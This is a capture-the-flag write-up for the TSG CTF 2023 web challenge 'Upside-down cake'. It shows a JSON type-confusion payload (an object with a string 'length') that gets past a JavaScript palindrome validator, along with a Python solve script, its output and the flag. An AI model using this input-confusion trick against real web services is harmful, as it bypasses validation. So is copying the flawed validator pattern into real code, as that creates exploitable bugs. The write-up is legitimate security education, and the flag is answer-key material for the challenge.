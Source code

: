 # TSG CTF 2023 - web/Upside-down cake

- 127 solves / 100 pts
- Author: hakatashi

You need to send a palindrome with `> 1000` characters to solve this challenge, but request body size is limited by nginx.

I solved this challenge by sending a crafted JSON like the following.


```JSON
{"palindrome": {"length": "1000", "0": "", "999": ""}}
```

See the explaination below for how the payload works.

```javascript
const validatePalindrome = (string) => {
	// "1000" < 1000 is true
	if (string.length < 1000) {
		return 'too short';
	}

	// Array("1000") is ["1000"]
	for (const i of Array(string.length).keys()) {
		const original = string[i];  // i=0
		const reverse = string[string.length - i - 1];  // "1000" - 0 - 1 is 999

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}
```

## Exploit

```python
import requests

url = "http://34.84.176.251:12349/"

payload = {"palindrome": {"length": "1000", "0": "", "999": ""}}

res = requests.post(url, json=payload)

print(res.text)
```

```
$ py solve.py
I love you! Flag is TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```

## Flag

```
TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```
